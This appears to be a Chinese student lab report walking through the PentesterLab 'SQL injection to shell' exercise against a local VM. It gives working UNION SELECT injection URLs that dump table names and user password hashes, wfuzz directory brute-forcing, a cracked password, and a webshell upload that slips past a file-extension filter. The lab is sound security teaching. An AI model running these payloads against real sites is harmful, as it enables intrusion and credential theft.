



# chap0x07 SQL注入
## 网络拓扑
* 服务器 SQL_Server: 网络模式为NAT网络


* 攻击者 SQL_Attacker：网络模式为NAT网络


* 攻击者可以ping通服务器



* 服务器可以ping通攻击者


## 实验过程
* 在攻击者端扫描服务器IP
```txt
netdiscover -r 10.0.0.9/24
 ```

 

#### 指纹识别
* 收集有关Web应用程序和正在使用的技术信息。
* 用nmap扫描服务器，查看端口情况和MAC地址


* 浏览器查看网页的源代码，发现是PHP写的view-source


#### Burpsuite查看http响应包头，提取更多有效信息
* 浏览器设置代理


* 设置代理后无法访问网页，需要配置请求转发，地址端口与浏览器代理设置一致



* 关闭Intercept


* 攻击者浏览器访问服务器
```txt
http://10.0.0.9
```


* 对Burpsuite劫持http的request分析，发现服务器是建立在Apache2.0上的，网页使用的是PHP/5.3.3-7+squeeze14


* 使用Wfuzz暴力检测Web服务器上的目录和页面
```txt
find / -name big.txt
cd /usr/share/wfuzz
wfuzz -c -z file,wordlist/general/big.txt --hc 404 http://10.0.0.9/FUZZ
```


#### SQL注入
##### 检测
* 基于整数的检测
* 对cat.php进行SQL注入测试，显示了图片，说明存在漏洞


* 访问```http://10.0.0.9//cat.php?id=1``` 和 ```http://10.0.0.9//cat.php?id=2-1``` 生成的是一个页面，说明数据库直接做了减法，可以SQL注入


* 基于字符串的检测
* 奇数个单引号```http://10.0.0.9//cat.php?id=1'```将引发错误，偶数个单引号则不会


* 加上```--```表示注释```http://10.0.0.9//cat.php?id=2 --'or id = 3```


##### 注入
* 猜测列数：
* 使用UNION：UNION前后的select语句的列数需保持一致，否则报错```http://10.0.0.9/cat.php?id=2 UNION SELECT 1,2,3```


```http://10.0.0.9/cat.php?id=2 UNION SELECT 1,2,3,4```


* 使用order by：order by 后面的值必须小于或等于数据库中的列数，否则报错```http://10.0.0.9/cat.php?id=2 order by 4```

![]19order.png)

```http://10.0.0.9/cat.php?id=2 order by 5```


* 所以可以猜测此数据库有4列，并且猜测需要的数据信息在第2列

#### 信息获取
* 获取数据库版本信息```http://10.0.0.9/cat.php?id=1 UNION SELECT 1,@@version,3,4```


* 当前用户```http://10.0.0.9/cat.php?id=1 UNION SELECT 1,current_user,3,4```


* 当前数据库```http://10.0.0.9/cat.php?id=1 UNION SELECT 1,database(),3,4```


* 当前数据库中所有表的名称```http://10.0.0.9/cat.php?id=1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables```


* 当前数据库中所有列的名称```http://10.0.0.9/cat.php?id=1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns```


* 表名和列名的对应关系```http://10.0.2.11/cat.php?id=1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns```


* 获取用于访问管理页面的用户名和密码。通过表名和列名的对应关系，发现列里含有password， id ，login列


* 获取用户名和密码的md5序列```http://10.0.0.9/cat.php?id=1 UNION SELECT 1,concat(login, ':'' ,password),3,4 FROM users ```


* 在线破解md5序列得到密码为```P4ssw0rd```


#### 登录后台

* 获取用户名、密码后，尝试登录后台



* 登录成功，此处的```new.php```可以用于上传Webshell


* 构建Webshell文件```shell.php```，执行 GET 请求中 cmd 参数的值


* 尝试上传```shell.php```失败，说明网站禁止直接上传php文件


* 更改Webshell文件后缀```shell.php.test```，绕过检测，上传成功


* 测试Webshell


* 获取系统用户信息


* 获取系统版本信息


* php信息


* php配置文件中的特定设置


参考链接
* https://github.com/CUCCS/2018-NS-Public-FLYFLY-H/pull/8
* https://github.com/CUCCS/2018-NS-Public-jckling/pull/10
* https://pentesterlab.com/exercises/from_sqli_to_shell/course